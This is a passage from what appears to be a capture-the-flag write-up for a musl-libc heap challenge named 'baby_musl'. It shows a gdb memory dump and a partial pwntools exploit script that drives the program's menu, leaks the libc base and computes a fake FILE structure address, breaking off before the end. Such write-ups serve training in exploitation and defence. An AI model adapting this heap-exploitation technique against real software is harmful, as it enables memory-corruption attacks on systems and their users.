 ```c
0x7f1bd695f500:	0x4141414141414141	0x4141414141414141
0x7f1bd695f510:	0x4141414141414141	0x4141414141414141
0x7f1bd695f520:	0x4141414141414141	0x4141414141414141
0x7f1bd695f530:	0x4141414141414141	0x4141414141414141
0x7f1bd695f540:	0x4141414141414141	0x4141414141414141
0x7f1bd695f550:	0x4141414141414141	0x4141414141414141
0x7f1bd695f560:	0x4141414141414141	0x4141414141414141
0x7f1bd695f570:	0x4141414141414141	0x4141414141414141
0x7f1bd695f580:	0x4141414141414141	0x4141414141414141
0x7f1bd695f590:	0x4141414141414141	0x4141414141414141
0x7f1bd695f5a0:	0x4141414141414141	0x4141414141414141
0x7f1bd695f5b0:	0x4141414141414141	0x4141414141414141
0x7f1bd695f5c0:	0x4141414141414141	0x4141414141414141
0x7f1bd695f5d0:	0x4141414141414141	0x4141414141414141
0x7f1bd695f5e0:	0x00007f1bd6954dd0	0x0000000000000000
0x7f1bd695f5f0:	0x0000000000000221	0x0000000000000a00
0x7f1bd695f600:	0x00007f1bd695cda0	0x00007f1bd695cda0
```

### exp

```python
from pwn import *

binary = './baby_musl'
# context.terminal = ['tmux', 'splitw', '-h']
context(binary=binary, log_level='debug')
p = process(binary)
# p = remote('chall.pwnable.tw',10202)
elf = ELF(binary)
libc = ELF('/usr/lib/x86_64-linux-musl/libc.so')

def leak(name, addr): return log.success(
    '{0} addr ---> {1}'.format(name, hex(addr)))

def cmd(idx):
    p.sendlineafter('[4] Show', str(idx))

def add(idx, size):
    cmd(1)
    p.sendlineafter('Enter index', str(idx))
    p.sendlineafter('Enter size', str(size))

def dele(idx):
    cmd(2)
    p.sendlineafter('Enter index', str(idx))

def edit(idx, data):
    cmd(3)
    p.sendlineafter('Enter index', str(idx))
    p.sendafter('Enter data', data)

def show(idx):
    cmd(4)
    p.sendlineafter('Enter index', str(idx))

p.sendline('Niebelungen')

add(0, 0x18)
show(0)

libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00')) - 0xb0dd0
fake_fl = libc_base + 0xb33e0
```